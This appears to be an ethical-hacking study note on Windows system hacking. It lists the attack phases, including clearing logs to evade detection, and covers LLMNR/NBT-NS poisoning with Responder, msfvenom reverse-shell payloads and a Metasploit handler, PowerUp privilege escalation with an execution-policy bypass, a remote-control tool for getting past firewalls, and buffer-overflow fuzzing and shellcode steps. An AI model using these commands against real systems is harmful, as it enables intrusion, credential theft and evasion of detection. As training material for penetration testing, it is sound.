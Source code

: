 # System Hacking
> System hacking is the process of testing computer systems and software for security vulnerabilities that an attacker could exploit to gain access to the organization’s systems to steal or misuse sensitive information.

<br>

There are four steps in the system hacking:

- Gaining Access: Use techniques such as cracking passwords and exploiting vulnerabilities to gain access to the target system
- Escalating Privileges: Exploit known vulnerabilities existing in OSes and software applications to escalate privileges
- Maintaining Access: Maintain high levels of access to perform malicious activities such as executing malicious applications and stealing, hiding, or tampering with sensitive system files
- Clearing Logs: Avoid recognition by legitimate system users and remain undetected by wiping out the entries corresponding to malicious activities in the system logs, thus avoiding detection.


LLMNR (Link Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) are two main elements of Windows OSes that are used to perform name resolution for hosts present on the same link. These services are enabled by default in Windows OSes and can be used to extract the password hashes from a user.

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

- responder -I eth0
- https://www.exploit-db.com/

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  - PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
  - `powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"`
- run vnc

Armitage:
- Armitage is a scriptable red team collaboration tool for Metasploit that visualizes targets, recommends exploits, and exposes the advanced post-exploitation features in the framework. Using this tool, you can create sessions, share hosts, capture data, downloaded files, communicate through a shared event log, and run bots to automate pen testing tasks.

Ninja Jonin:
- Ninja Jonin is a combination of two tools; Ninja is installed in victim machine and Jonin is installed on the attacker machine. The main functionality of the tool is to control a remote machine behind any NAT, Firewall and proxy.
- https://github.com/ErAz7/Jonin

Buffer Overlow:
- generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
  - Here, 10.10.1.11 is the IP address of the target machine (Windows 11), 9999 is the target port number, stats.spk is the spike_script, and 0 and 0 are the values of SKIPVAR and SKIPSTR.
  - stats.spk
```
s_readline();
s_string(“TRUN ”);
s_string_variable(“0”);
```

-  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 11900
- msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”
  - Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444., -f: filetype, -a: architecture, -b: bad character.

